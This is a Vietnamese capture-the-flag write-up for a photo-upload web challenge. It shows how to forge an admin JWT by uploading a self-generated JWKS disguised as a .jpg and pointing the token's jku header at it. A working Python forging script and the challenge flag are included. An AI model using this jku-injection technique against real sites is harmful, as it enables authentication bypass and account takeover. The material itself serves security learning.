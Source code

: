 # Foobar - The Photo Exhibit

Chall cho source code.

Truy cập -> trang web có tính năng đăng kí và đăng nhập. Sau khi đăng nhập ta có thể upload ảnh lên server.

## Enumeration

Sau khi đăng kí và đăng nhập với tên user là `jang` ta được cookie:
```
sessio=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCIsImtpZCI6ImMwZmM2YjZhLTA3Y2ItNDA5Mi1iYzUzLThlOWUwM2Y5ZGFjNCIsImprdSI6Imh0dHA6Ly9sb2NhbGhvc3Q6MzAwMC8ud2VsbC1rbm93bi9qd2tzLmpzb24ifQ.eyJ1dWlkIjoiMGM2OTYzNGUtZDA3Ny00OWIwLTgwMjktZWVlNDRjZDQ2NmYyIiwiaWF0IjoxNjQ2NTYyNDM4fQ.LmkW0tCrwvQ7adUMRn5FACWH4BsegvLInjIbATqQaLHQIySyj8B4jjOyKc1x2mIEkaVslKgttoYYe6zprw-aGWPsUpTHhDvrs2I-plvevWStjhBNZ-TBDqa1rz1uZfXyFoH72-CVElAHVDS6xat7mw9i1i0Xehfx5oMuwxvUf3At4fK08vq35OVJHoyCoA-EI5yOFxMAXZymuEXQenRUBphfPHE86dXwI8m7eeZgLZx5hXH8wBn5Tc2esWYe4oKabLE7mrO4Kdz0zE_9yBrzlCR1GGGvwNHmWwJXFYx-axQdJtMYGEdE7QsgNNTHi23n6RMiRGHwZhctwBZQlPTeJQ
```

Decode(`jwt.io`):
```json
{
  "alg": "RS256",
  "typ": "JWT",
  "kid": "c0fc6b6a-07cb-4092-bc53-8e9e03f9dac4",
  "jku": "http://localhost:3000/.well-known/jwks.json"
}.
{
  "uuid": "0c69634e-d077-49b0-8029-eee44cd466f2",
  "iat": 1646562438
}....
```

Web có sử dụng `jwt cookies` để xác thực user, ở phần header ta biết rằng algorithm là `RS256` có chứa `jwk`(json web key) trỏ đến 1 link host `public key`.

## Exploit

Sau 1 hồi review source-code ta biết được các step để exploit

1. Tìm `uuid` của `admin`

2. Tìm cách thay đổi JWT cookie

3. Login in as admin -> `flag`

### Step 1
Thử upload ảnh lên ta tìm được path chứa ảnh upload. So sánh tên file với `uuid` của ta, ta nhận thấy cấu trúc tên file sau khi được upload là: `[username]-[uuid]-[random-string].jpg`

Inspect source-code ta cũng tìm được ảnh background mà do chính `admin` upload, từ đó ta tìm được `uuid` của admin là: `683999a1-8bea-4278-876a-5ba278ea7917`

![uploads path expose admin uuid](admin-uuid.png)

### Step 2
Truy cập: http://chall.nitdgplug.org:30623/.well-known/jwks.json ta có được public key. 

![pub key](pubkey.png)

Ngoài ra file chứa `jwk` phải thuộc localhost.
```python
if (header.jku.lastIndexOf('http://localhost:3000', 0) !== 0)
    res.status(500)
    return
```

Vì thuật toán được gán chặt trong source-code là `RS256` nên thay đổi alg ở header thành `HS256` rồi tự sign bằng public-key có được để exploit là không thể.

Tuy nhiên vì có tính năng upload file(ảnh) nên ta nghĩ ngay đến tự generate ra RSA key để tự sign jwt cookie rồi upload `public key` lên server với `jwk header` của jwt trỏ đến file upload đó.

**References**: https://jwcrypto.readthedocs.io/en/latest/jwk.html

**Step 1**: generate RSA pair key
```bash
openssl genrsa -out keypair.pem 2048
```

**Step 2**: retrive public key from private key and sign our own token. Lưu ý format của jwk và jwt.
```python
#!/usr/bin/env python3
from jwcrypto import jwk, jwt
import json

with open("keypair.pem", "rb") as pemfile:
    key = jwk.JWK.from_pem(pemfile.read())

pubkey = key.export(private_key=False)

jwks = {}
jwks["keys"] = [json.loads(pubkey)]

# Vì server white list image extension nên đuôi file phải là .jpg, nhưng ta chỉ cần đọc file dưới dạng text nên không sao cả.
with open('jwks.jpg', 'w') as f: # upload
  f.write(json.dumps(jwks))

# Ở đây sau khi có được file ta cần tự add thêm các cặp alg, kty, use... để giống vời jwk format trên server

# Sau khi upload jwtksjwks.jpg tên, ta được upload path chứa public-key. Thế path này vào jku(Json web Key set URL)
token = jwt.JWT(
    header={
        "alg": "RS256",
        "typ": "JWT",
        "kid": key.key_id, # kid!!
        "jku": "http://localhost:3000/uploads/jang-0c69634e-d077-49b0-8029-eee44cd466f2-4fcbb882ac9238db0261955fef6cbbb0-10e5b9.jpg"
    },
    claims={
        "uuid": "683999a1-8bea-4278-876a-5ba278ea7917", # admin uuid
        "iat": 1646470816
    }
)


token.make_signed_token(key)

print(token.serialize())
```

Thế thôi đó. Thay cookie cũ với cái ta tự generate được là login as admin được rồi.

**flag**: `GLUG{D035_4ny0n3_us3_jwk5??}`
